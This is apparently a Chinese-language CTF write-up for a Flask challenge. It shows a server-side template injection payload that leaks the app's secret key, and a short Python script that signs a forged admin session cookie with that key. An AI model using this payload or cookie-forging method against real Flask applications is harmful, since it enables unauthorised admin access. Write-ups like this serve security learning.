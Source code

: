 Flask 500 points
================

题意
-------------

The flag is prepared for only admin, can you get it?

http://host:port

解题步骤
-------------

经过测试，这是一个 `SSTI(Server Side Template Injection)` 题目，可以直接传 `Jinja template` ，从而获取到 `flag` 。首先，查看 `Cookie` 信息可以知道，当前的 `Cookie` 为 `{'username':'guest'}` 。我们的目标就是换成 `{'username':'admin'}` 。

研究了很久如何在 `Jinja template` 中向字典写入，但都失败了。最后找到了方案：找到对 `Cookie` 进行加/解密的 `Key` ，然后本地用同样地密钥加密我们想要的 `Session` 内容，达到欺骗服务端的目的。

通过 `{{ self.__dict__ }}` ，可以找到 `Secret Key` 为 `!955)aa1~2.7e2ad` 于是编写了 [flask_hijack.py](flask_hijack.py) ，然后在浏览器中将获取到的 `Cookie` 用于页面，就可以获得 `flag: THUCTF{Do_n0t_s4ve_4uth_1nfo_1n_fl4sk_s3ss10n}` 了。

```
secret_key = '!955)aa1~2.7e2ad'

from flask import (
    Flask,
    session)


app = Flask(__name__)
app.secret_key = secret_key

@app.route('/')
def hello_world():
    session["username"] = "admin" 

    print(session)
    return session["username"]
```

注：之后出题者称这个获取 `Secret Key` 的方法是非预期的，不过不知道真实上的方法是什么。
